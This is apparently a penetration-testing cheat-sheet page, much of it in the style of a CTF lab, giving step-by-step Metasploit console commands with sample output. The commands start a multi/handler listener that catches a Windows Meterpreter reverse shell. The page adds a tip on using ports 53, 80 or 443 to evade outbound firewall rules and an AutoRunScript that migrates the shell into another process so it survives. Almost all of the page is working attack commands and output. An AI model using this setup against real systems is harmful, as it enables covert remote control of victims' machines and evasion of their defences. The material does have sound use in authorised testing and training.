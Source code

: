 ```yaml
---
title: "Metasploit Listener"
date: 2024-6-26
tags: ["Metasploit", "Firewall", "Reverse Shell", "Shellcode", "Listener", "Reverse Shell", "Msfconsole"]
---
```


### Start a Metasploit Listener

```console
msfconsole -q
```

```console {class="sample-code"}
$ msfconsole -q
msf6 >
```

```console
use exploit/multi/handler
```

```console {class="sample-code"}
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```

```console
set payload windows/meterpreter/reverse_tcp
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```

```console
set lhost <LOCAL_IP>
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set lhost 10.10.14.31
lhost => 10.10.14.31
```

```console
set lport <LOCAL_PORT>
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set lport 1337
lport => 1337
```

```console
run
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.31:1337 
```

<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

### If the shell die immediately, we can try to migrate it to another process

```console
# Create a automigrate.rc script
run post/windows/manage/migrate
```

```console {class="sample-code"}
$ cat automigrate.rc 
run post/windows/manage/migrate
```

<br>

```console
msfconsole -q
```

```console {class="sample-code"}
$ msfconsole -q
msf6 >
```

```console
use exploit/multi/handler
```

```console {class="sample-code"}
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```

```console
set payload windows/meterpreter/reverse_tcp
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```

```console
set lhost <LOCAL_IP>
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set lhost 10.10.14.31
lhost => 10.10.14.31
```

```console
set lport <LOCAL_PORT>
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set lport 1337
lport => 1337
```

```console
set AutoRunScript multi_console_command -r automigrate.rc
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set AutoRunScript multi_console_command -r automigrate.rc
AutoRunScript => multi_console_command -r automigrate.rc
```

```console
run
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.31:1337 
```